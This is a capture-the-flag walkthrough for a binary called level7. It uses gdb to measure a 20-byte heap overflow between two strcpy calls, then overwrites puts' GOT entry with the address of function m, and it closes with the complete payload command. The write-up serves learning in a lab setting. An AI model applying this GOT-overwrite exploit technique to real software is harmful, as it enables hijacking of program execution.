 The `main` function expects 2 arguments - 2 simultaneous operations
get c value to be printed by m
execute m on hijacking the puts execution

1. Find the buffer size of the first `strcpy`.
In gdb :
```
(gdb) run AAA AAA
Starting program: /home/user/level7/level7 AAA AAA

Breakpoint 1, 0x080485a0 in main ()
(gdb) i r $eax
eax            0x804a018	134520856
(gdb) x /128x 0x804a018
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
```
```
>>> int(hex(0x804a028 - 0x804a018), 16) + 4
20
```

2. Playing around
We can observe the overflow of the first `strcpy` in eax of the second one provocating a Segmentation fault.
```
Starting program: /home/user/level7/level7 $(python -c "print 'A' * 20 + 'BBBB'") $(python -c "print 'A'")

Breakpoint 1, 0x080485bd in main ()
(gdb) i r $eax
eax            0x42424242	1111638594
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xb7eb18f3 in ?? () from /lib/i386-linux-gnu/libc.so.6
```
The 2nd `strcpy` tries to write the content of our argv[2] into the value of the first.

3. Use that observation to replace the address of `puts` with the address of `m`.
```
(gdb) x 0x8048400
   0x8048400 <puts@plt>:	0x992825ff
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
  0x08048400 <+0>:	jmp    *0x8049928
  0x08048406 <+6>:	push   $0x28
  0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```
The address of `puts` is `0x8049928`.
```
(gdb) x m
0x80484f4 <m>:	0x83e58955
```
The address of `m` is `0x80484f4`.

Test :
```
Starting program: /home/user/level7/level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")

Breakpoint 1, 0x080485bd in main ()
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406
(gdb) c
Continuing.

Breakpoint 2, 0x080485d3 in main ()
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x080484f4
```
It works !

4. Finally, in the terminal :
```
./level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
```